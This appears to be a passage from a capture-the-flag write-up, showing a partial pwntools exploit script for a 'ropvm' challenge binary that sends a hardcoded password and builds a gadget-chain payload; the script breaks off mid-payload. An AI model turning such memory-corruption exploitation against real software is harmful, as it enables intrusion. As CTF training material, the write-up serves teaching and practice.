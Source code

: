 ```python
p.send(payload)
```

### Final Exploit

{% tabs %}
{% tab title="solve.py" %}
```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF("./ropvm_patched")
libc = ELF("./libroot/libc.so.6")
# url,port = "chal.h4c.cddc2025.xyz",31123
url,port = "localhost", 4040

if args.REMOTE:
    p = remote(url,port)
else:
    p = elf.process(aslr=False)

if args.GDB:
    gdb.attach(p, '''
        ''')

        # break *0x555555557fdd
"""
POP reg[14] = reg[13]
0xc00: 0F 00 00 00 0D 00 00 00  → PUSH reg[13]
0xc10: 11 00 00 00 0D 00 0E 00  → MOV reg[13], reg[14]
0xc20: 10 00 00 00 0E 00 00 00  → POP reg[14]
0xc30: 0D 00 00 00 00 00 00 00  → RET
"""

goaltowrite = 0x7fffffffc9e8

# writing to 0x55555557032c

# 0x555555557ac3
retaddr = 0x55555557c334
# mov retaddr into 0x55555556e328
offset_to_stack = 0x55555556e320
regbase = 0x55555556e2b0
starting = 0x55555556e340
writeto = 0x55555557c310
password = b'V3ry53cretP4ass'
p.clean()
p.sendline(password)

pop_0 = 0x410
pop_1 = 0x510
write_sys  = 0xa60

# pause()

payload = b''
payload = payload.ljust(36, b'\x00')
payload = payload + p32(pop_0) + p32(0)
payload += p32(pop_1) + p32(0x2000)
payload += p32(write_sys)

payload += cyclic(25)
```